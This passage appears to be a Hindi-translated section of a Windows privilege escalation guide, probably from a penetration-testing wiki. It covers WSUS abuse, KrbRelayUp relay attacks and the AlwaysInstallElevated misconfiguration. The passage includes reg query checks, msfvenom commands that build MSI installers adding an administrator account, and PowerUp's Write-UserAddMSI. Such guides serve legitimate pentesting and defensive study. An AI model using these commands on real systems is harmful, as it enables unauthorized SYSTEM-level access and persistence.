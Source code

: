 आप इस कमजोरी का लाभ [**WSUSpicious**](https://github.com/GoSecure/wsuspicious) उपकरण का उपयोग करके उठा सकते हैं (जब यह मुक्त हो जाए)।

## KrbRelayUp

Windows **डोमेन** वातावरण में एक **स्थानीय विशेषाधिकार वृद्धि** की कमजोरी विशेष परिस्थितियों में मौजूद है। इन परिस्थितियों में वे वातावरण शामिल हैं जहाँ **LDAP साइनिंग लागू नहीं है,** उपयोगकर्ताओं के पास **Resource-Based Constrained Delegation (RBCD)** को कॉन्फ़िगर करने के लिए स्व-अधिकार हैं, और उपयोगकर्ताओं के लिए डोमेन के भीतर कंप्यूटर बनाने की क्षमता है। यह ध्यान रखना महत्वपूर्ण है कि ये **आवश्यकताएँ** **डिफ़ॉल्ट सेटिंग्स** का उपयोग करके पूरी की जाती हैं।

**शोषण खोजें** [**https://github.com/Dec0ne/KrbRelayUp**](https://github.com/Dec0ne/KrbRelayUp)

हमले के प्रवाह के बारे में अधिक जानकारी के लिए देखें [https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/](https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/)

## AlwaysInstallElevated

**यदि** ये 2 रजिस्टर **सक्षम** हैं (मान **0x1** है), तो किसी भी विशेषाधिकार के उपयोगकर्ता `*.msi` फ़ाइलों को NT AUTHORITY\\**SYSTEM** के रूप में **स्थापित** (निष्पादित) कर सकते हैं।
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
### Metasploit payloads
```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
यदि आपके पास एक मीटरप्रीटर सत्र है, तो आप इस तकनीक को **`exploit/windows/local/always_install_elevated`** मॉड्यूल का उपयोग करके स्वचालित कर सकते हैं।

### PowerUP

`Write-UserAddMSI` कमांड का उपयोग करें power-up से वर्तमान निर्देशिका के अंदर एक Windows MSI बाइनरी बनाने के लिए ताकि विशेषाधिकार बढ़ाए जा सकें। यह स्क्रिप्ट एक पूर्व-संकलित MSI इंस्टॉलर लिखती है जो उपयोगकर्ता/समूह जोड़ने के लिए संकेत देती है (इसलिए आपको GIU पहुंच की आवश्यकता होगी):
```
Write-UserAddMSI
```
बस बनाए गए बाइनरी को कार्यान्वित करें ताकि विशेषाधिकार बढ़ सके।

### MSI Wrapper

इस ट्यूटोरियल को पढ़ें ताकि आप इस उपकरणों का उपयोग करके एक MSI wrapper कैसे बनाएं, यह जान सकें। ध्यान दें कि आप एक "**.bat**" फ़ाइल को लपेट सकते हैं यदि आप **बस** **कमांड लाइनों** को **कार्यन्वित** करना चाहते हैं।

{{#ref}}
msi-wrapper.md
{{#endref}}
